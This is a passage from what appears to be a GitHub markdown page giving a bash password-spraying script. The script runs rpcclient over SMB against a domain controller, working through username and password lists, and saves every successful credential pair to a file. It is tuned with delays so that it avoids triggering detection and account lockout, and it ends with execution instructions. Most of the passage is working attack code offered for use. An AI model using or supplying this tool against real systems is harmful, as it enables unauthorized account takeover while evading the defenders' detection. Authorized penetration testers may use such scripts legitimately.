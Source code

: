```bash!

    # Use rpcclient for SMB-based password spraying, suppress output except for successful attempts
    # This can be changed if other tools are required such as crackmapexec or ldapsearch
    rpcclient -U "$username%$password" $target_ip -c exit &>/dev/null
    
    # If the previous command was successful, log the successful attempt
    if [[ $? -eq 0 ]]; then
      echo "[+] Successful login - Username: $username | Password: $password"
      echo "$username:$password" >> $output_file
    fi

    # Short delay between individual user attempts to avoid triggering detection mechanisms
    sleep 5  
  done < "$userlist"

  # Wait for the observation window before trying the next password
  echo "Waiting for observation window to pass to avoid lockout..."
  sleep $delay

done < "$passwordlist"
```

#### Script Explanation:
- **Variables Defined at the Top**:
  - `target_ip`: IP address of the target domain controller.
  - `userlist`: File containing usernames to spray (e.g., `userlist.txt`).
  - `passwordlist`: File containing passwords to try (e.g., `passwordlist.txt`).
  - `delay`: Time (in seconds) to wait between password attempts (set to 30 minutes as a default).
  - `output_file`: File to store successful login attempts.
  
- **Command Execution**:
  - Loops through each password in `passwordlist.txt` and runs an `rpcclient` spray attempt against all usernames in `userlist.txt`.
  - If a successful login is found it is saved to the `successful_attempts.txt` file.
  - Pauses for a specified time - the default is 5 seconds - before trying the next username to reduce load on the server

- **Delay Between Sprays**:
  - After each password is tried, the script waits for a delay period (`sleep "$delay"`) to avoid triggering account lockouts.

#### Example Usage:
1. Save the above script to a file named `password_spray.sh`.
2. Give execution permissions:

   ```bash
   chmod +x password_spray.sh
   ```

3. Run the script:

   ```bash
   ./password_spray.sh
   ```
